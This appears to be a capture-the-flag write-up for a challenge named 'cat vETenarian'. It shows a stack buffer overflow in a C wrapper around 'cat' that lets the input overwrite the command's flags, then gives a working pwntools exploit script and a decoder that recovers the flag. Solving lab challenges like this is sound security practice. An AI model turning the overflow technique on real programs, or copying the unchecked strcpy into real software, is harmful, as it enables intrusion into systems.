 # cat vETenarian

This challenge is a wrapper around the binary 'cat', it allows the user to cat a single file, and checks the user input for disallowed characters like anything else than alphanumeric characters, dots, slashes and spaces.

You need to exploit a buffer overflow in the C wrapper here:

```c
char cat_flags[13] = "n"; // overflow into cat_flags
char filename[32]; // filename is 32 bytes
...
strcpy(filename, input); // input is 100 bytes, way more that filename
```

But we can not just run inject arbitrary commands into input, since it validates that only alphanumeric characters, dots, slashes, spaces and underscores are allowed.

```c
if (!is_safe_filename(input)) {
    printf("/ᐠ｡‸｡ᐟ\\ Hissss... I won't tolerate these shenanigans hooman...\n");
    return;
}

...

int is_safe_filename(const char *s) {
    for (size_t i = 0; s[i]; i++)
        if (!isalnum(s[i]) && s[i] != '.' && s[i] != '/' && s[i] != ' ' && s[i] != '_')
            return 0;
    return 1;
}
```

This is where cat_flags comes into play, we can control the value of cat_flags by overflowing filename, this allows us to control the command line flags of cat.

```c
char cat_flags[13] = "n"; // right after filename on the stack
char filename[32];
...
snprintf(cmd, sizeof(cmd), "cat -%s %s", cat_flags, filename);
```

Here is the final script to pwn

```python
from pwn import *

io = process('./src/cat_vETenarian')

payload = b"cat " + b"A" * 23 + b" flag.txt vET"

io.recvuntil("> ")
io.sendline(payload)
io.interactive()

```

Then we have the flag which is encoded in control characters, we are given the encode script so we can just reverse engineer it to create our own decrypt script:

```python
"""
Decrypts a file encoded with the custom binary format:
- Each character is encoded as 8 bits
- Each line represents one character
- Tabs ('\t') = binary 1
- Null bytes ('\x00') = binary 0
"""

def custom_binary_line_to_char(line):
    # Remove newline and decode bits
    bits = []
    for c in line.rstrip('\n'):
        if c == '\t':
            bits.append('1')
        elif c == '\x00':
            bits.append('0')
        else:
            # Ignore unexpected characters (robustness)
            continue
    # Join bits to form binary string
    if len(bits) != 8:
        raise ValueError(f"Expected 8 bits, got {len(bits)}: {bits}")
    return chr(int(''.join(bits), 2))

def decrypt_file_from_custom_binary(input_file, output_file):
    try:
        with open(input_file, 'rb') as f:
            lines = f.readlines()
        
        with open(output_file, 'w', encoding='utf-8') as f:
            for line in lines:
                char = custom_binary_line_to_char(line.decode('utf-8', errors='replace'))
                f.write(char)
        
        print(f"Decryption successful. Output saved to '{output_file}'")
    except FileNotFoundError:
        print(f"Error: File '{input_file}' not found.")
    except Exception as e:
        print(f"An error occurred: {e}")

if __name__ == '__main__':
    # Change these filenames as needed
    input_filename = 'enc_flag.txt'
    output_filename = 'output_decrypted.txt'
    
    decrypt_file_from_custom_binary(input_filename, output_filename)

```

Where the flag gets decoded:

```bash
[rootkatt@rootkatt-x220i src]$ python3 dec.py 
Decryption successful. Output saved to 'output_decrypted.txt'
[rootkatt@rootkatt-x220i src]$ cat output_decrypted.txt 
DREAM{th4nks_f0r_t4k1ng_my_c4t_t0_th3_vETenarian<3}
```
